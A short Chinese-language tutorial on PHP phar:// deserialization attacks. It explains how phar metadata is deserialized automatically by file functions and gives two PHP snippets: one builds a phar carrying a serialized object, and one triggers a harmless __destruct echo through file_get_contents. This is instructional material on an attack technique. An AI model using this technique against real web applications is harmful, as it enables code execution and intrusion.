


反序列化攻击必须满足两个点。

1.必须要有unserialize()函数

2.unserialize()函数的参数必须可控。


phar://攻击使我们不依靠unserialize()函数也可以发动攻击。

原理： phar 文件包在 生成时会以序列化的形式存储用户自定义的 meta-data ，配合 phar:// 我们就能在文件系统函数 file_exists() is_dir() 等参数可控的情况下实现自动的反序列化操作，于是我们就能通过构造精心设计的 phar 包在没有 unserailize() 的情况下实现反序列化攻击，从而将 PHP 反序列化漏洞的触发条件大大拓宽了，降低了我们 PHP 反序列化的攻击起点。


构造：phar包

```javascript
<?php
// 合法创建一个phar文件
class TestObject{
}
@unlink("phar.phar");
$phar=new Phar("phar.phar");//后缀名必须为phar

$phar->startBuffering();

$phar->setStub("<php __HALT_COMPILER(); ?>");

$o=new TestObject();

$phar->setMetadata($o);//将自定义的meta-data存入manifest

$phar->addFromString("test.txt","test");//添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```

phar包的内容：




其中还有序列化代码。


phar包的利用：

```javascript
<?php
class TestObject{
    public function __destruct(){
        echo "hack attack!";
    }
}

$filename='phar://phar.phar/test.txt';
file_get_contents($filename);
```

当访问该php文件时。执行反序列化：



参考资料：

https://www.freebuf.com/column/151447.html

https://www.k0rz3n.com/2018/11/19/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E6%B7%B1%E5%85%A5%E7%90%86%E8%A7%A3PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/